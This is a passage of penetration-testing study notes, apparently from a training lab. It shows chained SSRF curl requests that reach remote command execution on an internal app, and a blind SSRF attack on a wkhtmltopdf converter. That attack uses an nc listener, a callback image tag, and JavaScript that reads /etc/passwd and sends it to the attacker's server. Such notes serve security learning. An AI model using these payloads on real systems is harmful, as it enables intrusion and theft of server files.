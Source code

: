     ```shell
    # interacting with app on port 5000 again to uncover RCE
    curl -i -s "http://10.129.201.238/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=whoami"

    curl -i -s "http://10.129.201.238/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=uname -a"
    # commands with spaces do not work

    # we need to URL-encode the command - 3 times in this case, since we are passing through 3 different web apps
    curl -i -s "http://10.129.201.238/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=uname%252520-a"
    ```

* Blind SSRF - even if request is processed, we cannot see backend server's response; blind SSRF vulns can be detected via out-of-band techniques, making the server issue a request to an external service we control (using tools like Burp Collaborator or ```pingb.in```)

* Blind SSRF exploitation example:

  * Target app (listening on port 8080) is an app that converts HTML to PDF

  * We get the same response regardless of what HTML file has been uploaded

  * To test if app is vulnerable to blind SSRF, we can attempt to create a HTML file containing a link to a service under our control (e.g. - a listener using ```sudo nc -lvnp 9090```):

    ```html
    <!DOCTYPE html>
    <html>
    <body>
            <a>Hello World!</a>
            <img src="http://10.10.15.170:9090/x?=viaimgtag">
    </body>
    </html>
    ```
  
  * When we upload this HTML file, we get the same response; but on our listener, we get the name of the app that's being used to convert HTML to PDF - ```wkhtmltopdf```

  * According to ```wkhtmltopdf``` documentation, it can execute JS - we can leverage this to read local file:

    ```html
    <html>
        <body>
            <b>Exfiltration via Blind SSRF</b>
            <script>
            var readfile = new XMLHttpRequest(); // Read the local file
            var exfil = new XMLHttpRequest(); // Send the file to our server
            readfile.open("GET","file:///etc/passwd", true); 
            readfile.send();
            readfile.onload = function() {
                if (readfile.readyState === 4) {
                    var url = 'http://10.10.15.170:9090/?data='+btoa(this.response); // Send data encoded in base64
                    exfil.open("GET", url, true);
                    exfil.send();
                }
            }
            readfile.onerror = function(){document.write('<a>Oops!</a>');}
            </script>
        </body>